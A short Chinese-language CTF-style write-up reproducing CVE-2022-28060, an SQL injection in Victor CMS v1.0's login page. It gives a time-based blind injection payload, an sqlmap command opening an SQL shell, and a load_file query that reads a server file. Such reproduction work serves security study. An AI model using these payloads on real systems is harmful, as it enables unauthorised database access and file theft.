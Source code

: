 # CVE-2022-28060漏洞复现
Victor CMS v1.0 /includes/login.php 存在sql注入
打开页面发现有个登录页面，随便输入账号密码，发现进入/includes/login.php页面，于是我们截一下包，然后测试盲注：
```1'+AND+(SELECT*FROM+(SELECT+SLEEP(5))a)+AND+'1'='```
发现可以进行盲注猜字，于是我们拉进sqlmap：
```sqlmap -r /home/kali/桌面/login.txt --sql-shell -v --batch```

在sql-shell启动后，读取/flag的内容：
```sql-shell> select load_file('/flag')```

接下来耐心等待一会儿即可！
